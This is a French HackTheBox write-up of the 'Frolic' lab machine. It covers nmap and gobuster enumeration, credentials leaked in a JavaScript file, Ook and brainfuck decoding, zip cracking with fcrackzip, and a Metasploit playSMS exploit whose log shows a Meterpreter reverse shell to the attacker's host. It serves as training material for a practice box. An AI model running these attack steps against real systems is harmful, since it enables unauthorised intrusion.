 # Access writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/12/6/1553333910-capture-du-2019-03-23-10-37-40.png)

Informations
----
    Ip : 10.10.10.111        Created by : felamos
    Level : Medium           Base Points : 20

Scan nmap
----
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
    |_  256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
    139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: FROLIC)
    445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: FROLIC)
    9999/tcp open  http        nginx 1.10.3 (Ubuntu)
    |_http-server-header: nginx/1.10.3 (Ubuntu)
    |_http-title: Welcome to nginx!
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: frolic
    |   NetBIOS computer name: FROLIC
    |   Domain name: 
    |   FQDN: frolic
    |_  System time: 2019-03-23T14:57:44+05:30
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smbv2-enabled: Server supports SMBv2 protocol

Alors il y'a 4 ports open, le 22 pour le SSH, le 139 et 445 pour le Samba, et le port 9999 pour le HTTP qui tourne sous nginx. Une enumération par défault.

HTTP 9999
----
N'oubliez pas d'attribuer le domaine sur le fichier /etc/hosts. Pour justement avoir accéder à la box et au serveur HTTP sans problème.
[![forthebadge made-with-python](https://media.discordapp.net/attachments/556442801085218827/558951107431235596/unknown.png)

    root@Computer:~/htb/box/Frolic/gobuster# /usr/bin/gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://forlic.htb:9999/ -x php,html -o output_file

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://forlic.htb:9999/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Output file  : output_file
    [+] Status codes : 204,301,302,307,200
    [+] Extensions   : .php,.html
    =====================================================
    /admin (Status: 301)
    /test (Status: 301)
    /dev (Status: 301)
    /backup (Status: 301)
    /playsms (Status: 301)

Comme vous pouvez le voir il y'a un dossier /admin, /test, /backup, /dev et enfin /playsms nous allons un peu regarder le dossier /admin de plus près.

[![forthebadge made-with-python](https://cdn.discordapp.com/attachments/556442801085218827/558962528311443466/unknown.png)
Comme vous pouvez le voir, il y'a un fichier javascript /login.js donc dans ce fichier il y'a sans doute le nom d'utilisateur et le mot de passe.


    root@Computer:~/htb/box/Frolic/gobuster# curl http://10.10.10.111:9999/admin/js/login.js -s
    [...SNIP...]
    if ( username == "admin" && password == "superduperlooperpassword_lol"){
    alert ("Login successfully");
    [...SNIP...]
    
Donc nous avons l'utilisateur et le mot de passe pour se connecter sur la page d'administration et de voir concrètement les informations utiles sur cette page.

    root@Computer:~/htb/box/Frolic# curl http://forlic.htb:9999/admin/success.html
    ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... .....
    ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... .....
    ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! .....
    ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!!
    !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... .....
    ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?.
    ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
    ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... .....
    ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!!
    !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!!
    !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?!
    .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?..
    !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?.
    ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
    !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!!
    !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!!
    !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. .....
    ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!!
    !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!!
    !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .....
    ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
    ..!.! !!!!! !.?.

Ça ressemble beaucoup à Ook, donc nous allons déchiffrer cela sur un site directement et de voir le résultat final. un lien pour déchiffrer le message. https://www.dcode.fr/langage-ook.

Le message déchiffrer est : Nothing here check /asdiSIAJJ0QWE9JAS. Ça ressemble beaucoup à un chemin HTTP donc nous allons voir ça. Donc dans ce dossier il y'a rien de spécial, il y'a du base64 donc je vais essayer de trouver des fichiers assez spécifiques.

    root@Computer:~/htb/box/Frolic/gobuster# gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/ -x zip,html,php

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Status codes : 301,302,307,200,204
    [+] Extensions   : .zip,.html,.php
    =====================================================
    /crack.zip (Status: 200)
    /index.php (Status: 200)
    
Donc comme vous pouvez le voir il y'a un fichier crack.zip. Donc quand j'essaye de unzip le fichier, le fichier est sécurisé par un mot de passe donc je vais essayer de bruteforce ça pour trouver le mot de passe et de extraire les fichiers.

    root@Computer:~/htb/box/Frolic/gobuster# 7z l crack.zip 

    7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
    p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

    Listing archive: crack.zip

    --
    Path = crack.zip
    Type = zip
    Physical Size = 360

       Date      Time    Attr         Size   Compressed  Name
    ------------------- ----- ------------ ------------  ------------------------
    2018-09-23 13:44:05 .....          617          176  index.php
    ------------------- ----- ------------ ------------  ------------------------
                                       617          176  1 files, 0 folders
                                  
Donc il y'a un fichier php donc nous allons bruteforce le fichier et de voir les informations nécessaires.

    root@Computer:~/htb/box/Frolic/gobuster# fcrackzip --verbose --use-unzip --dictionary --init-password rockyou.txt crack.zip 
    found file 'index.php', (size cp/uc    176/   617, flags 9, chk 89c3)


    PASSWORD FOUND!!!!: pw == password
    
Donc le mot de passe c'est un mot de passe assez vulnérable donc je vais extraire le fichier zip avec la commande unzip. Du coup après avoir extraire le fichier nous avons un fichier php, et quand nous avons le fichier, le fichier est chiffré.

    root@Computer:~/htb/box/Frolic/gobuster# cat index.php|xxd -r -p|base64 -d > brainfuck 2>/dev/null                                                      
    root@Computer:~/htb/box/Frolic/gobuster# cat brainfuck 
    +++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
    ++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
    <]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
    ++..<
    
Donc concrètement pour déchiffrer cela c'est du brainfuck, c'est un langage de programmation donc pour déchiffrer il faut aller sur le site https://www.dcode.fr/langage-ook.
Brainfuck déchiffrer : idkwhatispass

Donc après avoir chercher pendant quelques temps, j'ai réussis à me connecter en tant que admin sur /playsms donc pour la connexion.

Username : admin</br>
Password : idkwhatispass<br/>

Donc nous pouvons maintenant attaquer pour avoir notre shell grâce à metasploit, car il y'a un exploit spécifique pour playsms, je vous ferais un petit tutorial pour vous montrez comment faire ça manuellement. L'exploit se nomme : exploit/multi/http/playsms_uploadcsv_exec

Shell > User.txt
----
    [*] Started reverse TCP handler on 10.10.14.98:4444 
    [+] Authentication successful: admin:idkwhatispass
    [*] Sending stage (38247 bytes) to 10.10.10.111
    [*] Meterpreter session 1 opened (10.10.14.98:4444 -> 10.10.10.111:45836) at 2019-03-23 14:00:25 +0100

    meterpreter > shell
    Process 2062 created.
    Channel 0 created.
    python -c "import pty;pty.spawn('/bin/bash')"
    www-data@frolic:~/html/playsms$ cd /home/ayush
    www-data@frolic:/home/ayush$ wc -c user.txt
    33 user.txt
   
Voilà nous avons accès en tant que www-data nous avons un shell.
    
    
